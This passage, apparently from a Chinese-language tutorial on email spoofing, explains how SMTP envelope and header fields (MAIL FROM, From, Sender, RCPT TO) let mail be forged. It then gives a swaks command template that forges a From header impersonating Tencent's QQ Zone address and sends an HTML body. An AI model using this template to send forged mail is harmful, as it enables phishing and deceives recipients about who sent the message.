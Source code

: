 很简单 HELO 这里 用自己的 126.com

登陆自己所属的 专用邮箱账号 假设是 126@qq.com

来发送邮件到 对应的 账户下面 设置 mail from 为自己的专属邮箱地址 126@qq.com

然后 发送到 对应下面的 邮件 设置 Sender 为 在 126 的用户A email 地址 user1@126.com

然后 对应 from 设置 为 126 的用户A email 地址 user1@126.com

RCPT TO 写进 user2@qq.com

TO 也是同理 写入 user2@qq.com

于是就完成了一次正常的邮件转发

> 这里应该是腾讯邮箱的逻辑处理方式 但是 基本是 触类旁通的 

> 避免了 在 qq 服务器还要存储 对应的 126.com 的 user1 账户
>
> 有清晰了当 也易于 qq 和 126 两个服务器之间对于自身的账户进行管理
>
> 如果有新的 邮件服务商 进来 那么开个户就可以了
>
> 缺点也是自然很明显 导致的很严重的 邮件伪造问题

> 秒啊秒啊
>
> **此外 每一个邮件服务器关于这些的 mail from from to sender 定义每一家厂商都不一样 具体什么逻辑可能要看服务器 **



## 混沌邪恶 : SWAKS

swaks 在 kali 上本身 就有 如果你寻找不到 可以试试 apt install 

邮件伪造的神器 Swaks

方便了很多

介绍几个常用的玩法

````zsh
swaks \
--server smtp服务器域名 \
--port smtp端口 \
--ehlo EHLO声明自己 \
--au 服务器的对应账号 \
--ap 账号的授权码 \
--to RCPT_TO \
--from MAIL_FROM \
--header 'From: "=?UTF-8?B?UVHnqbrpl7Tpobnnm67nu4Q=?=" <qzone@tencent.com> 这里是 from 头' \
--add-header "MIME-Version: 1.0" \
--add-header "Content-Type: text/html" \
--header "Subject: 主题" \
--header "Sender: sender头覆盖" \
--header "X-Mailer: 126.com 自定义的 mailer " \
--body "<!DOCTYPE HTML><html>...</HTML>"
#--add-header 'From: "=?UTF-8?B?UVHnqbrpl7Tpobnnm67nu4Q=?=" <qzone@tencent.com>' 
#--add-header-From  "=?UTF-8?B?UVHnqbrpl7Tpobnnm67nu4Q=?="<qzone@tencent.com>
````
